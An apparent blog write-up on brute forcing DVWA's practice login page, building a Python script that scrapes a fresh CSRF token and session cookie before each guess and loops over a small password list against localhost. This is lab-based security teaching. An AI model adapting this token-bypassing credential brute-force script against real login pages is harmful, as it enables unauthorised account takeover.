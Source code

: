 ```yaml
---
title: Brute forcing DVWA's initial login page 
slug: brute-forcing-dvwas-initial-login-page 
date: 2022-09-17 
updated_at: 2022-09-17 
description: "Although it is quite easy to see write ups for the DVWA's brute force login challenge. Hacking it's actual login page may bring up some challenges to newcomers. Let's understand why and how to circumvent it"
---
```


Although it is quite easy to see write ups for the DVWA's brute force login challenge. Hacking it's actual login page may bring up some challenges to newcomers. Let's understand why and how to circumvent it!

[Damn Vulnerable Web App, or also known as DVWA](https://github.com/digininja/DVWA), is a PHP/MySQL web application that is purposefully  vulnerable, as the name suggests, to be hacked, tested and serve as a learning playground for people that want to practice their security skills in a legal environment.

When we set up our DVWA server (in this case, I preferred using a docker image to host it for me), and do a initial reset database it will set up and show the default credentials for us: username `admin` and password `password`, pretty common default credentials for a webserver, right? However, if we could not hack, automate and find our way the system, how fun would it really be?

So, this is the first thing we see when we access our DVWA page:
![DVWA Login Page](/blog/assets/DVWA-Login-Page.png)

First things first, let's try to grasp this page and see if we can grab any hints that we could use, for it let's check the network tab as well. You can use another proxy to intercept requests as well, if you'd prefer.

![Highlighted requests](/blog/assets/highlighted-requests.png)

As you can see, I've highlighted somethings in the image above. The request high in blue is the POST request we just made trying to log in. After that, ther server processes the request and redirect us to `login.php` as we can see in the red highlight, with a message of "Login failed", as shown in the yellow highlight in the left. Let's copy the post request as a [cURL](https://curl.se/) command and see how it is formed. 

![Copy request as cURL command](/blog/assets/copy-as-curl.png)

Although cURL commands are pretty useful, I don't find them really easy to read, so let's transform it in a Python request and see how it looks. For that we can use the [cURL converter website](https://curlconverter.com/python/) to do the job for us and its output will look something like this:

```python
import requests

cookies = {
    'PHPSESSID': 'fmpdptokjk1ogvashj9j5usdn4',
    'security': 'low',
}

headers = {
	...
}

data = {
    'username': 'teste',
    'password': '123',
    'Login': 'Login',
    'user_token': 'e877712995a1d2bbae4c622fff7f9b9a',
}

response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
```

Here we can see a few interesting things in the request we made:  a cookie called `PHPSESSID ` and a parameter called `user_token`, if we try to refresh the page and login again we'll see that both of them will have new values. `PHPSESSID` is a a PHP way of setting a session cookie and `user_token` looks like a [CSRF Token](https://portswigger.net/web-security/csrf/tokens), a unique, unpredictable value that the server uses to validate the given request and properly process it if valid. Let's see what happens if we make a few requests without changing its value:

```python
for _ in range(1, 3):
    response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
    print(response.content)
    print("==============")
```

The output we have is:

![Print screen of the invalid CSRF output](/blog/assets/invalid-csrf-token.png)

After the first request, you'll probably see we have a `CSRF token is incorrect` message within its body content, so this confirms our theory! So what can we do to get around it and be able to automatize our requests? 

First of all, we've already seen that every time we load the page a new token is generated for us, we can use that for getting a new token before every new request we make, so let's try making a `GET` request and see what we get.

```python
response = requests.get('http://localhost/login.php')

print(response.content.decode('UTF-8'))
```

And we'll get a tag like this within our response:

```html
<input type=\'hidden\' name=\'user_token\' value=\'faaf19846a466a9f328f2a43a06cfdb6\' />
```

So we can probably extract that using a [regex](https://en.wikipedia.org/wiki/Regular_expression). Let's try that

```python
def get_user_token(body):
    return re.search("user_token\\\' value=\\\'(.+)\\\'", body).group(1)
```

Let's also get the `PHPSESSID` cookie, since we're already getting data from the new request. It is in the Headers, however, we can do it in the same way as the token.

```python
def get_phpsessid(headers):
    return headers['Set-Cookie'].split(';')[0].split('=')[1]
```

And wrap up everything into a single function

```python
def set_request_tokens():
    response = requests.get('http://localhost/login.php')
    cookies['PHPSESSID'] = get_phpsessid(headers=response.headers)
    data['user_token'] = get_user_token(body=response.content.decode('UTF-8'))
```

Let's set a small wordlist of passwords so we can test if we find a successful login.

```python
PASSWORDS = [
    "teste",
    "admin",
    "password",
    "tentativa",
    "aloha",
    "ihuuuu",
    "qwerty",
    "qw12er34ty56"
]
```

so, just to finish our little script, let's build a last function to do the dirty work for us.

```python
def brute_force():
    for i in PASSWORDS:
        set_request_tokens()
        data['password'] = i
        response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
        
        if 'Login failed' in response.content.decode('UTF-8'):
            continue

        print("=================")
        print("Successful Login!")
        print("Credential Found:")
        print(f"- Username: {data['username']}")
        print(f"- Password: {data['password']}")
        print("=================")
```

This function iterates over the PASSWORDS list we've defined earlier, sets the tokens we need for every new request and, finally, do the request. After that we check if there's a `Login failed` message within the reponse content to see if we succeeded or not and then print out the credentials found. The final output will look like this:

![Script output Result](/blog/assets/script-output.png)

## Conclusion

And that will be it! Although it's a very simple hacking problem, some people might run into trouble dealing with those tokens and not understand what's going on. Especially when we try to use tools as Burp Suite or [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra) for brute forcing it, since the results may not be consistent if not set up correctly. You can find the whole script in my [Github](https://github.com/davidpalves/writeups/blob/main/dvwa/dvwa-login.py).

Feel free to comment below any questions, suggestions or relevant points you might have!

